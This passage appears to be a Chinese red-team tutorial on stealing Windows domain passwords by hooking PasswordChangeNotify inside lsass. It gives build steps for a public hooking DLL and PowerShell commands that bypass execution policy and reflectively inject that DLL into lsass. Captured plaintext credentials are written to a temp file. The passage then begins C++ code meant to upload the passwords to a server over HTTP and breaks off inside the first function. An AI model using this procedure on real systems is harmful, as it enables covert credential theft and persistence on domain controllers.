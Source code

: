 ### HOOK PasswordChangeNotify

具体实现思路如下:

1. 为PasswordChangeNotify创建一个钩子,将函数执行流重定向到我们自己的PasswordChangeNotifyHook函数中。
2. 在PasswordChangeNotifyHook函数中写入获取密码的代码,然后再取消钩子,重新将执行流还给PasswordChangeNotify。
3. 将生成的dll注入到lssas进程中。  
    使用HOOK PasswordChangeNotify无需重启域控系统或修改注册表,更加隐蔽且贴合实际。

### 技术复现

前人栽树,后人乘凉。  
项目地址:<https://github.com/clymb3r/Misc-Windows-Hacking>

下载后将sln文件打开,右键解决方案,将MFC的使用设置为在静态库中使用MFC编译工程,然后F7编译。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-b3c581d27c94bf760e5e0d28363f5e9341a7b5ab.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-b3c581d27c94bf760e5e0d28363f5e9341a7b5ab.png)

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-de7cf7d713ca8ccb76db608b9767df2cffb915be.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-de7cf7d713ca8ccb76db608b9767df2cffb915be.png)

dll生成成功之后就需要将dll注入,这里估摸着自己写一个远线程注入也可以,同样可以使用powershell脚本进行注入。

> <https://github.com/clymb3r/PowerShell/blob/master/Invoke-ReflectivePEInjection/Invoke-ReflectivePEInjection.ps1>

使用该将HookPasswordChange.dll注入内存

> Set-ExecutionPolicy bypass  
> Import-Module .\\Invoke-ReflectivePEInjection.ps1  
> Invoke-ReflectivePEInjection -PEPath HookPasswordChange.dll -procname lsass

执行后若无报错信息则说明注入成功。注意dll位数。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-d062ea120519d66e1cab5d056e261468703e7f77.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-d062ea120519d66e1cab5d056e261468703e7f77.png)

当更改密码后,能够抓取到更改后的密码,账户和明文密码储存在`C:\Windows\Temp\passwords.txt`。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-6fdd98a91f53787fffb0ef5744211fe3488a990d.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-6fdd98a91f53787fffb0ef5744211fe3488a990d.png)

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-f79c21196857b569a1482145bb746d231f293a7d.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-f79c21196857b569a1482145bb746d231f293a7d.png)

当然存储文件位置和类型可以自定义,只需更改HookPasswordChange.cpp文件。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-f319fffd31254e6c716c96a615c3fedbf916ddec.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-f319fffd31254e6c716c96a615c3fedbf916ddec.png)

如果觉得仍然不方便,希望直接将密码上传到服务器,可以使用http协议发送。

```c++
#include <windows.h>
#include <stdio.h>
#include <WinInet.h>
#include <ntsecapi.h>

void writeToLog(const char* szString)
{
    FILE* pFile = fopen("c:\\windows\\temp\\logFile.txt", "a+");
    if (NULL == pFile)
    {
        return;
    }
    fprintf(pFile, "%s\r\n", szString);
    fclose(pFile);
```